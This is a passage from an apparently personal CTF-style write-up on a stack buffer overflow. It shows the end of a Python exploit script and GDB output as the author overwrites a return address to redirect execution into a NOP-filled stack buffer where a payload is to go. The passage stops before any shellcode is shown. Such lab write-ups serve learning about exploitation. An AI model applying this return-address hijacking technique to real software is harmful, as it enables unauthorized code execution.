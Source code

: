 ```python
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()
```

On GDB, running `r < input.txt`, we can see this output:
```
 0x4006df <main+149>    ret    
    ↓
 ► 0x40064a <main>        push   rbp
   0x40064b <main+1>      mov    rbp, rsp
```
The return value has been overwritten, and now jumps to the beginning of the main function.

We now want to replace that address with the beginning of our buffer address, in order to execute the payload we will store in it later.

This image explains nicely how the stack works, and how to write the payload.

![](_attachments/Pasted%20image%2020240313114443.png)

I tried to put the buffer address i found:

```
0x4006df       <main+149>    ret    
    ↓
 ► 0x7fffffffdc90               xchg   r8d, eax
```

Quite a weird instruction, maybe it is my `A`s turned into instructions.  
I'm going to put nops inside my buffer, so that will be clearer.

```
0x4006df       <main+149>    ret    <0x7fffffffdc90>
    ↓
   0x7fffffffdc90               nop    
   0x7fffffffdc91               nop    
   0x7fffffffdc92               nop    
   0x7fffffffdc93               nop    
   0x7fffffffdc94               nop
```

